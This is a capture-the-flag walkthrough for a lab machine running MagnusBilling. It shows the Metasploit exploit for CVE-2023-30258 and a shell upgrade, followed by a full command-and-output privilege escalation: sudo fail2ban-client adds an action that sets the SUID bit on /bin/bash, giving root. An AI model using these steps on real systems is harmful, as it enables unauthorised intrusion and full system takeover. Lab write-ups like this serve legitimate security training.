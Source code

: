 # Billing

Gain a shell, find the way and escalate your privileges!

Note: Bruteforcing is out of scope for this room.

nmap -sC -sV 10.10.45.158

![alt text](image.png)

After a short search, we see that it seems like an open-source VoIP billing and management system for managing SIP trunks, VoIP calls, and customer billing. It provides tools for call routing, monitoring, and invoicing.
![alt text](image-1.png)
This has an unauthenticated remote command execution vulnerability CVE-2023-30258, which is available as a manual exploit but is also present in the Metasploit framework.
Let's call it from Metasploit, it's much easier
    ![alt text](image-2.png)
 #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                          

   Don't forget to Set the RHOSTS and LHOST
    ![alt text](image-3.png)
    We are in, let's go more in depth
    ![alt text](image-4.png)
    i wanted to work with the bash, not shell from msfconsole 
    ![alt text](image-5.png)
    Make interactive with python -> python3 -c 'import pty; pty.spawn("/bin/bash")'
    ![alt text](image-6.png)
    User.txt flag 
    ![alt text](image-7.png)
asterisk@ip-10-10-45-158:/home/magnus$ sudo -l
sudo -l
Matching Defaults entries for asterisk on ip-10-10-45-158:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-45-158:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
There you can find an approach to customize a config in the config directory and place code in it that is to be executed with root permissions. Unfortunately, we only have read-only access to the directory...

cat /etc/fail2ban
![alt text](image-8.png)
fail2ban-client is a command-line interface that allows us to interact with, configure, and control the fail2ban-server. To give a brief explanation, fail2ban is a security tool that monitors log files for suspicious activities (such as repeated failed login attempts) and bans the offending IP addresses by updating firewall rules.

Checking the running processes, fail2ban-server is running as root, as expected.
![alt text](image-9.png)
Jails are basically configurations that define which logs to monitor, the patterns to look for, and the actions to take when a pattern is matched.

'''bash
asterisk@ip-10-10-45-158:/etc/fail2ban$  /usr/bin/fail2ban-client set asterisk-manager
<ban$  /usr/bin/fail2ban-client set asterisk-manager
2025-08-30 07:51:34,904 fail2ban                [50777]: ERROR   Permission denied to socket: /var/run/fail2ban/fail2ban.sock, (you must be root)
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager addaction evil
<fail2ban-client set asterisk-manager addaction evil
evil
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager action evil actionban "chmod +s /bin/bash"
<-manager action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager banip 1.2.3.4
</fail2ban-client set asterisk-manager banip 1.2.3.4
1
asterisk@ip-10-10-45-158:/etc/fail2ban$ ls -al /bin/bash
ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 18 13:47 /bin/bash
asterisk@ip-10-10-45-158:/etc/fail2ban$ /bin/bash -p 
/bin/bash -p 
bash-5.2# whoami
whoami
root
bash-5.2# 
'''
![alt text](image-10.png)